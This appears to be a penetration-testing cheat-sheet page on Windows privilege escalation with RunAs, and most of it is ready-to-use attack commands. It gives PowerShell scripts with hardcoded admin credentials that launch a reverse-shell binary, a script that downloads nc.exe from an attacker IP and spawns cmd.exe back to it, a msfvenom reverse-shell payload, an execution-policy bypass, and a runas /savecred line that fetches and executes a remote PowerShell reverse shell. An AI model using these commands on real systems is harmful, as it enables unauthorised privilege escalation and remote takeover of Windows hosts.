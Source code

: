 ```yaml
---
title: runas
category: win privesc
order: 1
---
```


Windows includes a useful command called RunAs that enables a user to run a program as a different user if credentials are known.

# Example
---
So we have a program we want to run, we have a shell as a low priv user, and we have the username and password of an admin user from a different machine, but because we have a non-interactive shell there is no option to input the password. What can we do? Let me set up a situation and provide the solution for the problem:

&nbsp;
## | create file
Create a file called runme.ps1 (powershell file), and add the contents below to the file:
```
$secpasswd = ConvertTo-SecureString "Welcome1!" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$computer = "workstation7"
[System.Diagnostics.Process]::Start("C:\Users\alfred\Desktop\rev.exe","", $mycreds.Username, $mycreds.Password, $computer)
```

&nbsp;
## | alternative to runme.ps1
```
$password = convertto-securestring -AsPlainText -Force -String
"36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget
http://10.10.14.23/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 4444} -credential $credential;
```

&nbsp;
## | create reverse shell
```
msfvenom -p windows/shell_reverse_tcp LPORT=666 LHOST=10.10.14.6 -f exe -o rev.exe
```

&nbsp;
## | execute
```
C:\> powershell -ExecutionPolicy Bypass -File runme.ps1
```


# RUNAS With saved keys  
---
if you see keys with cmdkey /list , you can get a shell with those saved keys
```
runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object net.webclient).downloadstring('http://10.10.14.6/Invoke-PowerShellTcp.ps1')"
```
